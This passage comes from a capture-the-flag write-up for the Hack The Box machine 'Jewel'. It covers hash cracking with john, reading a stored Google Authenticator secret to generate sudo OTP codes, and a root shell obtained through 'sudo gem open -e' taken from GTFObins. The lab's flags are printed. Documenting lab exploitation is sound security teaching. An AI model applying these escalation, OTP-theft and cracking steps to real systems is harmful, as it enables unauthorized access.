drwxr-xr-x 15 bill bill 4096 Sep 17 17:16 blog
drwxr-xr-x  3 bill bill 4096 Aug 26 10:33 .gem
-rw-r--r--  1 bill bill   43 Aug 27 10:53 .gitconfig
drwx------  3 bill bill 4096 Aug 27 05:58 .gnupg
-r--------  1 bill bill   56 Aug 28 07:00 .google_authenticator
drwxr-xr-x  3 bill bill 4096 Aug 27 10:54 .local
-rw-r--r--  1 bill bill  807 Aug 26 09:32 .profile
lrwxrwxrwx  1 bill bill    9 Aug 27 11:26 .rediscli_history -> /dev/null
-r--------  1 bill bill   33 Feb 14 14:27 user.txt
-rw-r--r--  1 bill bill  116 Aug 26 10:43 .yarnrc
```

There was a few interesting hidden files in `bill`'s home folder, including one called `.google_authenticator`.

### User.txt

```text
bill@jewel:~$ cat user.txt 
9688e08ab337fd2944c921e8dd4383b2
```

I was happy to see that `bill` had the `user.txt` flag in his home directory!

## Path to Power \(Gaining Administrator Access\)

### Enumeration as `bill`

```text
[+] Searching specific hashes inside files - less false positives (limit 70)
/var/backups/dump_2020-08-27.sql:$2a$12$sZac9R2VSQYjOcBTTUYy6.Zd.5I02OnmkKnD3zA6MqMrzLKz0jeDO          
/home/bill/blog/bd.sql:$2a$12$uhUssB8.HFpT4XpbhclQU.Oizufehl9qqKtmdxTXetojn2FcNncJW
```

linpeas pointed out that there were a couple of files with password hashes. The second one was one that I had tried to crack unsuccessfully before, but the other was new. Since it was in a backups folder, it was possible that this was an old password that was used elsewhere



I copied the backup SQL file to my local machine and opened it up. There were a couple of new hashes in it, which I loaded into hashcat to try to crack.

```text
┌──(zweilos㉿kali)-[~/htb/jewel]
└─$ hashcat -O -D1,2 -a0 -m3200 --username hash_backup  /usr/share/wordlists/rockyou.txt
hashcat (v6.1.1) starting...

Kernel /usr/share/hashcat/OpenCL/m03200-optimized.cl:
Optimized kernel requested but not needed - falling back to pure kernel

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 72

Failed to parse hashes using the 'native hashcat' format.
Failed to parse hashes using the 'native hashcat' format.
No hashes loaded.

Started: Sun Feb 14 18:04:00 2021
Stopped: Sun Feb 14 18:04:00 2021

┌──(zweilos㉿kali)-[~/htb/jewel]
└─$ hash-identifier                                                                              255 ⨯
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: $2a$12$QqfetsTSBVxMXpnTR.JfUeJXcJRHv5D5HImL0EHI7OzVomCrqlRxW

 Not Found.
--------------------------------------------------
 HASH: ^C

        Bye!

┌──(zweilos㉿kali)-[~/htb/jewel]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash_backup
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 4096 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
spongebob        (?)
```

For some reason hashcat could not identify the backup hashes as a valid bcrypt hash, but `john` was able to crack one of them almost immediately.

```text
bill@jewel:/var/backups$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
avahi-autoipd:x:105:112:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
bill:x:1000:1000:,,,:/home/bill:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
usbmux:x:107:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
postgres:x:108:115:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
redis:x:109:116::/var/lib/redis:/usr/sbin/nologin
```

I checked `/etc/passwd` to see if there were any other users, but only `bill`, `postgres`, and `root` could log in.

```text
bill@jewel:/var/backups$ sudo -l
[sudo] password for bill: 
Verification code: 
I fart in your general direction!
[sudo] password for bill: 
I fart in your general direction!
[sudo] password for bill: 
sudo: 3 incorrect password attempts
```

It password ended up belonging to `bill`.  I tried using `sudo -l` again now that I had a password, but it asked for a verification code. This seemed like it may have been related to the `.google-authenticator` file I saw in `bill`'s home folder.

* [https://github.com/google/google-authenticator-libpam](https://github.com/google/google-authenticator-libpam)

> Run the google-authenticator binary to create a new secret key in your home directory. These settings will be stored in ~/.google\_authenticator.

```text
bill@jewel:~$ google-authenticator 

Do you want authentication tokens to be time-based (y/n) n
Warning: pasting the following URL into your browser exposes the OTP secret to Google:
  https://www.google.com/chart?chs=200x200&chld=M|0&cht=qr&chl=otpauth://hotp/bill@jewel.htb%3Fsecret%3DJ5B3HMXHBC3IYW54L7HI6FIY7E%26issuer%3Djewel.htb

...qr code would be here...it didn't copy for some reason, though...                            

Your new secret key is: J5B3HMXHBC3IYW54L7HI6FIY7E
Your verification code is 983076
Your emergency scratch codes are:
  78936844
  50472226
  37399849
  28773354
  23422974

Do you want me to update your "/home/bill/.google_authenticator" file? (y/n) y

By default, three tokens are valid at any one time.  This accounts for
generated-but-not-used tokens and failed login attempts. In order to
decrease the likelihood of synchronization problems, this window can be
increased from its default size of 3 to 17. Do you want to do so? (y/n) y

If the computer that you are logging into isn't hardened against brute-force
login attempts, you can enable rate-limiting for the authentication module.
By default, this limits attackers to no more than 3 login attempts every 30s.
Do you want to enable rate-limiting? (y/n) n
Failed to write new secret: Operation not permitted

bill@jewel:~$ sudo -l
[sudo] password for bill: 
Verification code: 
You must cut down the mightiest tree in the forest... with... a herring!
[sudo] password for bill: 
Verification code: 
Pauses for audience applause, not a sausage
[sudo] password for bill: 
Verification code: 
sudo: 3 incorrect password attempts
```

I was unable to setup a new google authenticator \(and somebody likes monty Python...\)

```text
bill@jewel:~$ cat .google_authenticator 
2UQI3R52WFCLE6JTLDCSJYMJH4
" WINDOW_SIZE 17
" TOTP_AUTH
```

* [https://wiki.archlinux.org/index.php/Google\_Authenticator](https://wiki.archlinux.org/index.php/Google_Authenticator)

> The easiest way to generate codes is with oath-tool. It is available in the oath-toolkit package, and can be used as follows: `oathtool --totp -b ABC123` Where ABC123 is the secret key.

After installing `oathtool` and trying to generate totp using the code I had found, I noticed that the machine's time was GMT, and my system was not. This was causing my attempts to verify the OTP to fail.

```text
bill@jewel:~$ sudo -l
[sudo] password for bill: 
Verification code: 
Error "Operation not permitted" while writing config
I fart in your general direction!
[sudo] password for bill: 
Verification code: 
Error "Operation not permitted" while writing config
This man, he doesn't know when he's beaten! He doesn't know when he's winning, either. He has no... sort of... sensory apparatus...
```

After setting my system to GMT I got a different sort of error. The time between the two machines was still off by a few minutes, which may have been still causing problems. I searched for ways to sync the times between the two machines

* [https://superuser.com/questions/577495/how-can-i-sync-date-time-in-two-computers](https://superuser.com/questions/577495/how-can-i-sync-date-time-in-two-computers)

```text
┌──(zweilos㉿kali)-[~/htb/jewel]
└─$ remote_time=`ssh -i jewel bill@10.10.10.211 date` && date -s $remote_time
date: invalid date ‘Mon 15 Feb 00:51:59 GMT 2021’
```

Unfortunately it seems not only are the time zones different, but the format of the date/time was different which made it so I couldn't sync automatically by using SSH.

After playing around with matching the times, I realized that the time zone, and date were wrong.

* [https://unix.stackexchange.com/questions/110522/timezone-setting-in-linux](https://unix.stackexchange.com/questions/110522/timezone-setting-in-linux)

> NOTE: There's also this option in Ubuntu 14.04 and higher with a single command \(source: Ask Ubuntu - setting timezone from terminal\): `$ sudo timedatectl set-timezone Etc/GMT-6` 
>
> ...you should be using a fully named time zone like America/New\_York or Europe/London or whatever is appropriate for your location...

```text
┌──(zweilos㉿kali)-[~/htb/jewel]
└─$ sudo timedatectl set-timezone Europe/London
[sudo] password for zweilos: 

┌──(zweilos㉿kali)-[~/htb/jewel]
└─$ date
Sun 14 Feb 2021 07:27:42 PM GMT

┌──(zweilos㉿kali)-[~/htb/jewel]
└─$ sudo date -s "02:28:50 AM"                                                                     1 ⨯
Sun 14 Feb 2021 02:28:50 AM GMT

┌──(zweilos㉿kali)-[~/htb/jewel]
└─$ sudo date -s "Mon 15 Feb" 
Mon 15 Feb 2021 12:00:00 AM GMT

┌──(zweilos㉿kali)-[~/htb/jewel]
└─$ sudo date -s "02:29:15 AM"
[sudo] password for zweilos: 
Mon 15 Feb 2021 02:29:15 AM GMT
```

After getting the time synced, I was able to check the results of `sudo -l` finally:

```text
bill@jewel:~$ sudo -l
[sudo] password for bill: 
Verification code: 
Matching Defaults entries for bill on jewel:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, insults

User bill may run the following commands on jewel:
    (ALL : ALL) /usr/bin/gem
```

After all of that trouble getting the OTP, I was glad to see there was a result!  Next, I searched for a way to do privilege escalation using `sudo gem` and found a post on GTFObins on how to do this.

* [https://gtfobins.github.io/gtfobins/gem/](https://gtfobins.github.io/gtfobins/gem/)

> This requires the name of an installed gem to be provided \(rdoc is usually installed\). `gem open -e "/bin/sh -c /bin/sh" rdoc`

### Getting a root shell

```text
bill@jewel:~$ sudo gem open -e "/bin/sh -c /bin/sh" rdoc
# id && hostname
uid=0(root) gid=0(root) groups=0(root)
jewel.htb
```

I ran the command from GTFObins with `sudo` and it immediately gave me a root shell.  It seemed to me that if I had been able to read the sudoers file I could have bypassed all of that trouble with OTPs. I wasn't sure why one wasn't required to run the command, unless I was still authenticated. I logged back out to test this.

```text
bill@jewel:~$ less /etc/sudoers
/etc/sudoers: Permission denied
```

I had forgotten to check this file earlier, but I was somewhat relieved that all of the pain that it took to sync the date and time wasn't in vain.

```text
┌──(zweilos㉿kali)-[~/htb/jewel]
└─$ oathtool --totp -b 2UQI3R52WFCLE6JTLDCSJYMJH4
509498

┌──(zweilos㉿kali)-[~/htb/jewel]
└─$ oathtool --totp -b 2UQI3R52WFCLE6JTLDCSJYMJH4
695810
bill@jewel:~$ sudo gem open -e "/bin/sh -c /bin/sh" rdoc
[sudo] password for bill: 
Verification code: 
# id
uid=0(root) gid=0(root) groups=0(root)
#
```

I was correct. There was a window in which I was able to enter commands with `sudo` without re-authenticating.

### Root.txt

```text
# ls -la
total 12
drwxr-xr-x 3 root root 4096 Aug 26 09:34 .
drwxr-xr-x 3 root root 4096 Aug 26 09:34 ..
drwxr-xr-x 2 root root 4096 Aug 26 09:35 exe
# pwd
/usr/lib/ruby/gems/2.5.0/gems/rdoc-6.0.1
# cd ~
# ls
root.txt
# cat root.txt
ccd692c5e666d9ed85939664d3e70448
```

After that I collected my hard-earned proof, then set my clock back to normal!


Thanks to [`<box_creator>`](https://www.hackthebox.eu/home/users/profile/<profile_num>) for something interesting or useful about this machine.

If you like this content and would like to see more, please consider [buying me a coffee](https://www.buymeacoffee.com/zweilosec)!

